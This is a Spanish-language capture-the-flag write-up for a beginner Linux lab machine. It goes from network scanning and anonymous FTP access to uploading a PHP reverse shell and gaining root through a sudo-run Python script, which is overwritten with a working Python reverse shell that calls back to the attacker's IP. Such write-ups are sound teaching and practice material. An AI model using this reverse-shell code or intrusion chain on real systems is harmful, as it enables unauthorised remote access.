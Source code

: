 ```yaml
---
title: "TheHackerLabs - Principiante : [Cyberpunk]"
date: 2024-09-06 19:10:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/cyberpunk/image.jpg
---
```



## Introducción

Bienvenidos al desafío **"Cyberpunk - Relic Infiltration"**, un CTF basado en Linux para principiantes. Este writeup narramos paso a paso cómo se llevó a cabo la infiltración y explotación de vulnerabilidades, desde el reconocimiento inicial hasta la escalada de privilegios y obtención de acceso como **root**.

## Identificación de la Red

Empezamos identificando la IP de la máquina objetivo utilizando el comando `ip a` para verificar nuestra configuración de red y luego con `arp-scan` escaneamos la red local en busca de la IP de la máquina vulnerable.

```bash
❯ ip a
```


```bash
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.5/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
```

Ahora ejecutamos `arp-scan` para identificar las máquinas en la red.

```bash
❯ arp-scan -I eth0 --localnet
```



```bash
10.0.2.8    08:00:27:43:1e:91   (Unknown)
```

## Escaneo de Puertos con Nmap

Procedemos con un escaneo completo de puertos utilizando `nmap` para identificar servicios expuestos.

```bash
❯ nmap -p- -Pn -n --min-rate 2000 10.0.2.8 -oG allports
```



```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo más detallado en los puertos 21, 22 y 80.

```bash
❯ nmap -sSCV -p21,22,80 -vvv 10.0.2.8 -oN ports
```


Puerto 21 con acceso anónimo, un archivo `index.html`, y un archivo `secret.txt`. El puerto 80 presenta un servidor HTTP Apache.


## Acceso al FTP Anónimo

Nos conectamos al servicio FTP usando acceso anónimo.

```bash
❯ ftp anonymous@10.0.2.8
Password: 
ftp> ls
```

Archivos disponibles:

```bash
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```

Descargamos y analizamos el archivo `secret.txt`:

```bash
❯ cat secret.txt
```

Contenido de `secret.txt`:

```r
*********************************************
*                                           *
*        Hola Netrunner,                    *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misión crucial.                         *
*                                           *
*   Tenemos información de que Arasaka,     *
*   la mega-corporación más poderosa de     *
*   Night City, está migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*                                           *
*   Necesitamos que te infiltres en sus     *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```

## Subida de Reverse Shell

Descargamos un reverse shell PHP desde el repositorio de PentestMonkey.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Subimos el archivo PHP al servidor a través de FTP.

```bash
ftp> put php-reverse-shell.php
```

## Ejecución de Reverse Shell

A continuación, accedemos al puerto HTTP para ejecutar el archivo `php-reverse-shell.php`. Nos conectamos a nuestra máquina a través de Netcat:

```bash
❯ nc -lnvp 443
# whoami
www-data
```

## Escalada de Privilegios

Exploramos el sistema y encontramos un archivo interesante en `/opt/arasaka.txt`, que contiene una cadena cifrada en **Brainfuck**.

```bash
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Desciframos la cadena y encontramos información útil. Nos autenticamos como el usuario `arasaka` y descubrimos que podemos ejecutar un script Python con privilegios de `root`.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

### Explotación de la Vulnerabilidad

Usamos **Python Library Hijacking** para obtener acceso como root modificando el script.

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.5", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

Nos conectamos nuevamente a través de Netcat, esta vez como **root**.

```bash
# whoami
root
```

## Conclusión

Al final del desafío, logramos infiltrarnos en los sistemas de Arasaka, desactivar el Relic y obtener acceso como root. Este writeup demuestra la importancia de la configuración adecuada de permisos y la protección de servicios expuestos.

Herramientas utilizadas:
- `nmap`
- `ftp`
- `netcat`
- `python`

Medidas de protección:
- Configuración correcta de permisos.
- Auditoría de servicios.
- Uso de autenticación multifactor para servicios sensibles.

¡Gracias por acompañarnos en este desafío!

